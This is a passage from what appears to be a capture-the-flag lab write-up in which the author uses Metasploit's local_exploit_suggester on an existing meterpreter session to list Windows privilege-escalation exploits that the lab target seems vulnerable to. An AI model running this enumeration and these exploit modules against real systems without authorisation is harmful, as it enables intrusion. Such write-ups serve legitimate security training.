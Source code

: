 ## Privesc Alternative: With Metasploit

### Enumeration

I don’t love relying on Metasploit, but one thing that it definitely makes easier is Windows kernel exploits. I’ll background my meterpreter session so I can use the exploit suggester to quickly look for potential privescs, and it returns several options:

```

msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester

msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1

msf5 post(multi/recon/local_exploit_suggester) > options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```
